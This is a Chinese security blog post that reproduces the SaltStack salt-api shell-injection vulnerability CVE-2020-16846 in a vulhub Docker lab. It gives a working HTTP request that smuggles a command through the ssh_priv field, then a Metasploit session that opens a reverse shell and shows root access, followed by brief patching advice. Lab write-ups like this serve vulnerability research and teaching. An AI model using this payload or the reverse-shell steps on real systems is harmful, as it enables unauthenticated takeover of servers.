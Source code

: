 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NEeGbPM2A-fnrJjJapmpzQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1thKJHDUFkhXyboGPQ4xGyRPJiaOItc7pbIWx9KnDLbjJK6y8drFg28eA/640?wx_fmt=jpeg)

SaltStack Shell 注入 (CVE-2020-16846) 漏洞复现

一、漏洞简介

SaltStack 是一个分布式运维系统，在互联网场景中被广泛应用，有以下两个主要功能：

  •     配置管理系统，能够将远程节点维护在一个预定义的状态

  •     分布式远程执行系统，用于在远程节点上单独或通过任意选择标准来执行命令和查询数据

CVE-2020-16846 和 CVE-2020-25592 组合使用可在未授权的情况下通过 salt-api 接口执行任意命令。CVE-2020-25592 允许任意用户调用 SSH 模块，CVE-2020-16846 允许用户执行任意命令。salt-api 虽不是默认开启配置，但绝大多数 SaltStack 用户会选择开启 salt-api，故存在较高风险。

二、环境搭建

下载环境：

```
https://github.com/vulhub/vulhub/tree/master/saltstack/CVE-2020-16846
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1tibMmD9jQq4kic6rWIhbicqkV0EMmBxYowSdibgOCr1tTCRCur7dEnXP3gQ/640?wx_fmt=png)

或者后台回复：CVE-2020-16846 下载环境

环境启动：docker-compose up -d

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1t6X1mEnJxe0yZl6VEmqVzOKetC5rXnFxMw8qUfSiaQulPpicwTbT4jT1g/640?wx_fmt=png)

访问地址：https://192.168.1.107:8000/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1tQEq2po1yXNCs4bmclke1c91TcZJrZ1eB6QyZwHbicvic7KqtHEu8jib8g/640?wx_fmt=png)

三、漏洞复现

POC

```
POST /run HTTP/1.1
Host: 192.168.1.107:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

执行 poc  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1tEptOznR4S7ZQnQRLmEZAwFs6xX7ibG8JhibtDcSrnc8KpUJvx41OxsnQ/640?wx_fmt=png)

touch 文件成功

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1thAcujtBeYWCUlrtcFGEAVE6pslbUCzNcU7ZSOJckY8WQH0oF7QqEvg/640?wx_fmt=png)

msf 里面有 exp

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdtGyk8NAVBE5jGNPxxuW1t2RVRKFQ27WwbwA6sHE4WbHdbllbrsEl1eciaic8IywexZHvQ4oocicOsQ/640?wx_fmt=png)

exploit/linux/http/saltstack_salt_api_cmd_exec

```
use exploit/linux/http/saltstack_salt_api_cmd_exec
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > set rhosts 192.168.1.107
rhosts => 192.168.1.107
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > set rport 8000
rport => 8000
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > set LhOST 192.168.1.117
LhOST => 192.168.1.117
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > show options 

Module options (exploit/linux/http/saltstack_salt_api_cmd_exec):   Name       Current Setting  Required  Description   ----       ---------------  --------  -----------   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]   RHOSTS     192.168.1.107    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'   RPORT      8000             yes       The target port (TCP)   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.   SRVPORT    8080             yes       The local port to listen on.   SSL        true             no        Negotiate SSL/TLS for outgoing connections   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)   TARGETURI  /                yes       Base path   URIPATH                     no        The URI to use for this exploit (default is random)   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python_ssl):   Name   Current Setting  Required  Description   ----   ---------------  --------  -----------   LHOST  192.168.1.117    yes       The listen address (an interface may be specified)   LPORT  4444             yes       The listen port


Exploit target:   Id  Name   --  ----   0   Unix Command


msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > exploit 

[*] Started reverse SSL handler on 192.168.1.117:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Auth bypass successful.
[*] Executing Unix Command for cmd/unix/reverse_python_ssl
[*] Command shell session 2 opened (192.168.1.117:4444 -> 192.168.1.107:50332) at 2020-12-21 22:34:40 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```

四、漏洞修复

1. 尽快修复。由于官方并未放出升级包，故目前仍需要手动进行修复，这里是官方安全通告和修复补丁。

2. 如非必须使用 salt-api，请关闭该功能。

参考文档：

https://www.anquanke.com/vul/id/2222120

https://github.com/vulhub/vulhub/tree/master/saltstack/CVE-2020-16846

https://www.secpulse.com/archives/146236.html

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)